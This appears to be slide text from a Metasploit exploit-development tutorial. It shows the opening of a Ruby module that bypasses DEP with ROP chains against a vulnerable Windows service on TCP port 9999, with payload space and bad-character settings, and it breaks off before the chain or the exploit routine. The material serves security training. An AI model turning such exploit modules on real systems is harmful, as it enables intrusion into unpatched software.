

We have a complete create_rop_chain function in the rop_chains.txt file for Metasploit. We merely need to copy this function to our exploit.
Writing the Metasploit exploit module for DEP bypass
We will write the DEP bypass exploit for the same vulnerable application in which we exploited the stack overflow vulnerability, and the exploit failed when DEP was enabled. The application runs on TCP port 9999. So, let's quickly build a module and try
bypassing DEP on the same application:
class MetasploitModule < Msf::Exploit::Remote
Rank = NormalRanking
include Msf::Exploit::Remote::Tcp
def initialize(info = {})
super(update_info(info,
'Name' => 'DEP Bypass Exploit',
'Description' => %q{
DEP Bypass Using ROP Chains Example Module
},
'Platform' => 'win',
'Author' =>
[
'Nipun Jaswal'
],
'Payload' =>
{'space' => 312,
'BadChars' => "\x00",
},